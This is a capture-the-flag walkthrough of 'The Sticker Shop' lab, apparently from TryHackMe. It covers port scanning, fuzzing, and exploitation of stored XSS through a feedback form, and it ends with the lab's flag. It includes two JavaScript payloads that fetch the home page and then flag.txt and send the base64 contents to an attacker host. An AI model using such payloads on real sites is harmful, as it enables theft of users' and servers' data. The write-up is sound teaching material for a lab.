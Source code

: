 ```yaml
---
sticker: emoji//1f6cd-fe0f
---
```


# THE STICKER SHOP

## ENUMERATION

***

### OPEN PORTS

***

| PORT | SERVICE |
| ---- | ------- |
| 22   | ssh     |
| 8080 | http    |

We got two open ports, `ssh` and `http` on port `8080`, let's take a look at the website:

![](gitbook/cybersecurity/images/Pasted%20image%2020241202124915.png)

Let's check source code:

![](gitbook/cybersecurity/images/Pasted%20image%2020241202124936.png)

Nothing useful, let's try to fuzz in order to find anything useful:

### FUZZING

***

![](gitbook/cybersecurity/images/Pasted%20image%2020241202125736.png)

Found a `/view_feedbacK` directory, it has status code `401` which means we are not authorized to read it, so, we need to be able to perform some sort of privilege escalation to be able to read it.

## RECONNAISSANCE

***

if we take a look at the feedback, we are able to see the following:

![](gitbook/cybersecurity/images/Pasted%20image%2020241202130251.png)

seems like a simple feedback form, but I believe this is vulnerable to XSS, so, let's try to craft a payload to get the contents of the home page to check if it's either vulnerable or not.

## EXPLOITATION

***

As said, this will be our payload:

```js
<script>  
fetch("/", {method:'GET',mode:'no-cors',credentials:'same-origin'})  
.then(response => response.text())  
.then(text => {  
fetch('http://IP:80/' + btoa(text), {mode:'no-cors'});  
});  
</script>
```

```ad-note
#### Breakdown of the code:

- `fetch("/")`: Requests the home page's content.
- `btoa(text)`: Encodes the content in Base64 to safely transmit it.
- `fetch('http://your_ip:80')`: Sends the encoded data to your server.
```

Let's start a python server and check if it works:

![](gitbook/cybersecurity/images/Pasted%20image%2020241202130611.png)

After sending the payload, we receive the contents of the page we have requested, in this case, home page, if we try decoding that, we get the following:

![](gitbook/cybersecurity/images/Pasted%20image%2020241202130742.png)

As shown, we successfully exploited \[\[CYBERSECURITY/Bug Bounty/Vulnerabilities/SERVER SIDE VULNERABILITIES/CROSS SITE SCRIPTING/CROSS SITE SCRIPTING (XSS).md|XSS]]and got the contents of the home page, right now, we can take other exploitations paths, such as trying to get a reverse shell and some other, to make this CTF simple, let's just use a payload that retrieves the contents of `http://10.10.133.79:8080/flag.txt`, since this is the file we want to read anyway.

## READING THE FILE

***

```js
<script>  
fetch("/flag.txt", {method:'GET',mode:'no-cors',credentials:'same-origin'})  
.then(response => response.text())  
.then(text => {  
fetch('http://10.6.34.159:9001/' + btoa(text), {mode:'no-cors'});  
});  
</script>
```

This payload does the same as the previous one, it just targets that `flag.txt` file, let's send it and get our base64 encoded flag:

![](gitbook/cybersecurity/images/Pasted%20image%2020241202131136.png)

Nice, let's decode:

![](gitbook/cybersecurity/images/Pasted%20image%2020241202131156.png)

We got the flag and finished the CTF, Gg!

```ad-hint

Flag: `THM{83789a69074f636f64a38879cfcabe8b62305ee6}`
```
